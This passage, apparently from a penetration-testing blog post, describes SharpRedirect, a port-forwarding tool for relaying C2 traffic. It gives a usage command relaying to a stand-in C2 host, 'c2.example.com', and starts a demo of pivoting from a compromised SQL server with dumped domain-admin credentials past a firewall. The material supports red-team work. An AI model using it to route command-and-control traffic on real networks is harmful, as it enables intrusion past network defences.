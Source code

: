 This focus on reliability makes SharpRedirect suitable for real-world scenarios where network conditions may be unpredictable.

### Practical Usage

Using SharpRedirect is straightforward. Suppose you want to redirect traffic from `localhost:8080` to a remote C2 server at `c2.example.com:443`. You would execute the following command:

```
SharpRedirect.exe 8080 c2.example.com 443
```

The tool immediately starts listening on port 8080 and forwards incoming traffic to the specified destination. This setup is particularly useful in situations where network constraints prevent direct communication with the target host.

Additionally, the SharpRedirect tool can be also executed via any `execute-assembly` C2 module. This allows you to redirect traffic and compromise new machines without the need to ever leave the C2 framework.

!!!
When setting up redirection for your penetration testing operations, it is **critical** to ensure your payloads are configured to communicate with the **redirector's IP address** rather than the original Command and Control (C2) server's IP.
!!!

### Demo

To showcase the tool I have prepared the following lab setup:
![Demo Lab](demo.png)

In this case I have compromised the SQL01 server which is allowed from the firewall to connect to outbound servers. I dumped credentials and found a valid DA pair. Trying to obtain a C2 callback from the DC fails since it is not allowed from the firewall for outbound communication. 

Let's start SharpRedirect on SQL01:
